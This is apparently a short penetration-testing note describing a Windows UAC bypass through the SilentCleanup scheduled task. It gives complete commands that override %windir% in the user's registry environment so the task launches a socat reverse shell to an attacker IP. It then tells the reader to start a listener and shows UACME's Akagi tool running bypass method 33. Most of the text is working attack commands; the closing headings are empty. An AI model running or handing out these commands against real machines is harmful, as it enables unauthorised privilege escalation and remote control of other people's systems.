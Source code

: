 A Windows **scheduled task** (like Disk Cleanup) runs this:

```C
%windir%\system32\cleanmgr.exe /autoclean /d %systemdrive%
```

Normally, `%windir%` is `C:\Windows`.

But here’s the **trick**: You **override `%windir%`** from `HKCU\Environment` to whatever we want:

```C
cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4445 EXEC:cmd.exe,pipes &REM \system32\cleanmgr.exe /autoclean /d %systemdrive%
```

- **REM** is ignored as comment

**Putting it together**

```C
reg add "HKCU\Environment" /v "windir" /d "cmd.exe /c C:\tools\socat\socat.exe TCP:<attacker_ip>:4446 EXEC:cmd.exe,pipes &REM " /f

schtasks /run  /tn \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

Before the last command run a netcat/listening server first.

## Automated Exploitation
---

https://github.com/hfiref0x/UACME - no need to write exploits from scratch.

Akagi, which runs the actual UAC bypasses, using the tool is straightforward and only requires you to indicate the number corresponding to the method to be tested. A complete list of methods is available on the project's GitHub description. If you want to test for method 33, you can do the following from a command prompt, and a high integrity cmd.exe will pop up:

```C
UACME-Akagi64.exe 33
```



### Questions and Problems
---
## Conclusion


